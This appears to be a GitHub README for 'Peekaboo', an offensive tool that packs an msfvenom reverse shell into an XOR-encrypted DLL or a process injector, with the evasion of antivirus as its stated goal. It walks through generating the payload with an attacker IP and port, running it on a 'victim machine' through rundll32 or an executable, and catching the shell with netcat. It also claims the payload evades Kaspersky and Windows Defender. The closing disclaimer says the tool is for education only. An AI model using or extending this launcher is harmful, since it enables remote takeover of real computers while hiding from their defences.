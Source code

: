 # Peekaboo

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `msfvenom` reverse shell as example.

## Usage
## 1. DLL
### on attacker machine

check your IP:
```bash
ip a
```

![attacker machine IP](./screenshots/1.png?raw=true)

run python script with flags:
```bash
python3 peekaboo.py -l 10.9.1.6 -p 4444
```

![run python script](./screenshots/2.png?raw=true)

### then on victim machine (windows x64):
run on powershell or cmd promt:
```cmd
rundll32 .\peekaboo.dll, BMzUWjfJOsdaiCQzbTLM
```

![run on victim machine](./screenshots/3.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/4.png?raw=true)

example:
![final](./screenshots/5.png?raw=true)

## 2.Injector
### on attacker machine:
check attacker ip:
```bash
ip a
```

![check IP](./screenshots/6.png?raw=true)

run python script on linux (for example process `notepad.exe`):
```bash
python3 peekaboo-inj.py -l 10.9.1.6 -p 4444 -e notepad.exe
```

![encrypting](./screenshots/7.png?raw=true)

compile in VS - windows machine x64:
```cmd
.\compile-inj.bat
```

![compile in attacker windows x64](./screenshots/8.png?raw=true)

### then on victim machine (windows x64):
```cmd
.\peekaboo.exe
```

or click

![run on victim machine](./screenshots/9.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/10.png?raw=true)

## 3. UPDATE: Compile injector on kali linux
run python script on linux (for example process `notepad.exe`):
```bash
python3 peekaboo-inj.py -l 10.10.88.57 -p 4444 -e notepad.exe
```

![encrypting and compile](./screenshots/12.png?raw=true)

### then on victim machine (windows 10 x64):
```cmd
.\peekaboo.exe
```

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/13.png?raw=true)

## Issues.
Tested on:
1. Attacker machines: Kali linux 2020.1, Windows 10 x64
2. Victim machine: Windows 7 x64, Windows 10 x64
3. Payload: windows x64 reverse shell from msfvenom
4. AV Engines: Kaspersky, Windows Defender, Norton Commander

# Virus Total result:
02 september 2021

![virustotal](./screenshots/11.png?raw=true)

[https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection](https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection)

## TODO
- [x] Compile injector in Kali linux
- [ ] Implement custom variations of `GetProcAddress` and `GetModuleHandle` functions
- [ ] Replace msfvenom shell to custom undetectable

## Attention
This tool is a Proof of Concept and is for Educational Purposes Only!!! Author takes no responsibility of any damage you cause

## License
[MIT](https://choosealicense.com/licenses/mit/)

